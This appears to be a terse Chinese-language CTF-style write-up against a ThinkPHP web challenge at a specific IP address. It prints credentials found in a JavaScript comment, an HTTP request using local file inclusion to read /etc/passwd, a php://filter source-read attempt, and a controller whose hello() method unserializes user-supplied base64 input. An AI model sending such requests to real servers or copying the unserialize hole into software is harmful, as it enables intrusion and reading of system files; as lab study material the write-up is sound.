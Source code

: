 ```
http://39.99.41.124/public/log.txt
http://39.99.41.124/public/test/
http://39.99.41.124/public/nationalsb/login.php


```
在http://39.99.41.124/public/nationalsb/js/script.js中发现账号密码：
```
    //username:Admin1964752
    //password:DsaPPPP!@#amspe1221
    //Secret **** is your birthday
```

文件包含:
```
POST /public/nationalsb/login.php HTTP/1.1
Host: 39.99.41.124
Authorization: Basic QWRtaW4xOTY0NzUyOkRzYVBQUFAhQCNhbXNwZTEyMjE=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

file=/etc/passwd
```


```

Warning</b>:  include(): Failed opening 'php://filter/read=convert.base64-encode/resource=index.php' for inclusion (include_path='.:/usr/local/lib/php') in <b>/var/www/html/public/nationalsb/login.php
```


```
GET /public/index.php?s=/index/Index/hello&s3cr3tk3y= HTTP/1.1
Authorization: Basic QWRtaW4xOTY0NzUyOkRzYVBQUFAhQCNhbXNwZTEyMjE=
Host: 39.99.41.124
Connection: close

```



```php=
<?php
namespace app\index\controller;

class Index extends \think\Controller{
  public function index(){
  	$ip = $_SERVER['REMOTE_ADDR'];
    echo "Warning"."<br/>";
    echo "You IP: ".$ip." has been recorded by the National Security Bureau.I will record it to ./log.txt, Please pay attention to your behavior";
    echo '<meta http-equiv="refresh" content="1;url=http://127.0.0.1/public/test">';  
  }
  public function hello(){
  	unserialize(base64_decode($_GET['s3cr3tk3y']));
    echo(base64_decode($_GET['s3cr3tk3y']));
  }
}
```